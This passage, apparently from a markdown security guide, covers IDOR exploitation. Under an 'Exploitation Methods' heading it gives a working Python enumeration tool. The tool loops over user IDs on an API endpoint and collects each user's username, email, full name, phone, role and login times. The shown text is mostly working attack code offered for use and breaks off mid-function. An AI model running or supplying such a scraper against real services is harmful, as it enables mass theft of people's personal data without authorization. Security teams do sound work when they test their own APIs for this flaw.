 ```python
    if args.output:
        with open(args.output, 'w') as f:
            json.dump(vulnerabilities, f, indent=2)

if __name__ == "__main__":
    main()
```

## ⚔️ Exploitation Methods

### 1. 📊 Data Enumeration

#### User Data Extraction
```python
#!/usr/bin/env python3
"""
IDOR Data Enumeration Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import json
import time
import csv

class IDOREnumerator:
    def __init__(self, base_url, auth_headers):
        self.base_url = base_url
        self.session = requests.Session()
        self.session.headers.update(auth_headers)
        self.extracted_data = []
    
    def enumerate_users(self, start_id=1, end_id=1000):
        """Enumerate user data via IDOR"""
        print(f"[+] Enumerating users from ID {start_id} to {end_id}")
        
        for user_id in range(start_id, end_id + 1):
            try:
                url = f"{self.base_url}/api/user/{user_id}"
                response = self.session.get(url, timeout=5)
                
                if response.status_code == 200:
                    try:
                        user_data = response.json()
                        
                        # Extract relevant information
                        extracted = {
                            'id': user_id,
                            'username': user_data.get('username', ''),
                            'email': user_data.get('email', ''),
                            'full_name': user_data.get('full_name', ''),
                            'phone': user_data.get('phone', ''),
                            'role': user_data.get('role', ''),
                            'created_at': user_data.get('created_at', ''),
                            'last_login': user_data.get('last_login', '')
                        }
                        
                        self.extracted_data.append(extracted)
                        print(f"[+] Found user {user_id}: {extracted['username']} ({extracted['email']})")
```